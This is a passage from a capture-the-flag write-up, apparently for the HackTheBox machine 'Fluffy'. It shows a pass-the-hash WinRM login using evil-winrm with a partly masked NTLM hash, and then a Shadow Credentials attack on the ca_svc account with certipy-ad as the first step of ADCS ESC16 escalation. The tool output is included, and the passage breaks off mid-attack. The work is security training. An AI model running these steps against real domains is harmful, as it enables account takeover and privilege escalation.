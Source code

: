 **Recovered NTLM Hash:** `33bd09dcd69760*********875767`

## 9️⃣ Initial Access via WinRM

**Getting Shell:**
```bash
evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H 33bd09dcd697*************875767
```
{: .nolineno }

**Shell Access Confirmed:**
```powershell
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
fluffy\winrm_svc
```
{: .nolineno }

**User Flag Location:**
```powershell
C:\Users\winrm_svc\Desktop\user.txt
```
{: .nolineno }

As I have 2 more accounts left to check So, let's see the <b><span style="color:rgb(219, 0, 0)">ca_svc</span></b>
 account that may have ADCS related vulnerability in it.

Since both other account have **Shadow Credentials Attack** enabled sowith using <mark style="background: #ABF7F7A6;">certipy-ad</mark> Tool , because <b><span style="color:rgb(219, 0, 0)">ca_svc</span></b>
 account indicates ADCS account that's why.

## 🔟 ADCS ESC16 Exploitation for Administrator Access

**Method Used:** ADCS `ESC16` - UPN Manipulation via Certificate Authority

**Why this vector:** The <b><span style="color:rgb(219, 0, 0)">ca_svc</span></b>
 account provides access to certificate services, and `ESC16` allows UPN manipulation when security extensions are disabled.

**Commands and Steps:**

**Step 1: Shadow Credentials on ca_svc**
```bash
certipy-ad shadow -u 'p.agila@fluffy.htb' -p 'pr********303' -dc-ip '10.10.11.69' -account 'ca_svc' auto
```
{: .nolineno }

**Results:**
```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The resolution lifetime expired after 25204.135 seconds: Server Do53:10.10.11.69@53 answered The DNS operation timed out.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '652122bc-f7fc-674f-789d-3971070e4584'
[*] Adding Key Credential with device ID '652122bc-f7fc-674f-789d-3971070e4584' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '652122bc-f7fc-674f-789d-3971070e4584' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
```